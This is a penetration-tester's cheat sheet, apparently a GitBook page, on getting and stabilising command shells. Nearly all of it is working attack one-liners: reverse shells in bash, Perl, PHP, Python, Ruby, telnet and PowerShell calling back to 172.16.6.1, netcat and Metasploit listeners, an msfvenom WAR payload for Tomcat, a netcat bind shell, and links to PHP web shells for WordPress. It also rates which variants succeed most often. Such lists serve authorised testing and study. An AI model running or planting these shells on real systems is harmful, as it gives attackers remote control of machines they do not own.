 # Shells

### Best Resource:

{% embed url="https://revshells.com" %}

### Stabilizing Shells

* Two ways to stabilized shells on Linux

```
script /dev/null -c bash
```

* Or:

```
#get installed python version
which python3 
which python 
#use whichever version of python is installed 
python3 -c 'import pty;pty.spawn("/bin/bash");'
python -c 'import pty;pty.spawn("/bin/bash");'
#gives access to clear command
export TERM=xterm
#background remote shell
CTRL+Z
#on your local station
stty raw -echo;fg
ENTER Twice
stty -a #on local shell
#on remote session
stty rows 61 cols 116 
```

### Reverse Shells

**Listensers**

```
nc -nlvp 9001
```

* Always set up a **netcat** listener before executing a bash reverse shell
* You can also use **multi/handler** from **metasploit** to catch incoming reverse shells

```
msfconsole
use exploit /multi/handler
set LHOST 172.16.6.1
set LPORT 9001
run
```

**Netcat Reverse Shell**

```
nc 172.16.6.1 9001 -e /bin/sh
```

* Standard **netcat** reverse shell (only works with some versions of nc)

### **Bash Reverse Shells**

* Good first attempt at a shell.

```
bash -i >& /dev/tcp/172.16.6.1/1234 0>&1
```

* Best **bash** reverse shell option, has the highest percentage success rate.&#x20;

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 172.16.6.1 1234 >/tmp/f
```

### **Perl Reverse Shell**

```
perl -e 'use Socket;$i="172.16.6.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### **PHP Reverse Shell**

```
php -r '$sock=fsockopen("172.16.6.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

* Standard PHP reverse shell typically used for injection on the terminal environment or into a web application

```
$sock=fsockopen("172.16.6.1", 1234);exec("/bin/sh -i <&3 >&3 2>&3");
```

* This php shell is used when you can inject php code into a theme file of a CMS (think wordpress)
* Also have the option of attempting p0wny.php shell for wordpress

{% embed url="https://github.com/flozz/p0wny-shell/blob/master/shell.php" %}
p0wny.php download&#x20;
{% endembed %}

* Most effective is the php-reverse-shell.php when it comes to wordpress and php reverse shells in general&#x20;

{% embed url="https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php" %}
php\__reverse\__&#x73;hell.php
{% endembed %}

### **Python Reverse Shell**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.6.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

* Troubleshooting lessons

```
which python
which python3
/usr/bin/python
/usr/bin/python3
```

* Try the absolute paths when `python3` or `python` are not working to trigger your reverse shell
* Standard python reverse shell

### **Ruby Reverse Shell**

```
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("172.16.6.1","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

* Linux ruby reverse shell

```
ruby -rsocket -e 'c=TCPSocket.new("172.16.6.1","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

* Windows ruby reverse shell

### **War Reverse Shell**

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.6.1 LPORT=1234 -f war > /home/kali/Documents/shell.war
```

* This will generate a war file for upload on the **Tomcat** CMS. Once uploaded click on the shell option to activate it.
* Catch this shell with **multi/handler** or just **nc**

```
msfconsole
use exploit /multi/handler
set payload java/jsp_shell_reverse_tcp
set LHOST 172.16.6.1
set LPORT 1234
run
```

### **Reverse shell over the Telnet Protocol**

```
mknod a p; telnet 172.16.6.1 1234 0<a | /bin/sh 1>a
```

* This reverse shell makes a special character file (mknod) uses telnet to call back and direct standard output to the character file via the binary /bin/sh

### Powershell

```
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### Bind Shells

### **Netcat Bind Shell**

```
nc -nlvp 1234 -e /bin/sh
```

* This is executed on the target box and waits for an incoming connection

```
nc [target box ip] 1234
```

* This is executed on your attack box to connect to the listener on the target
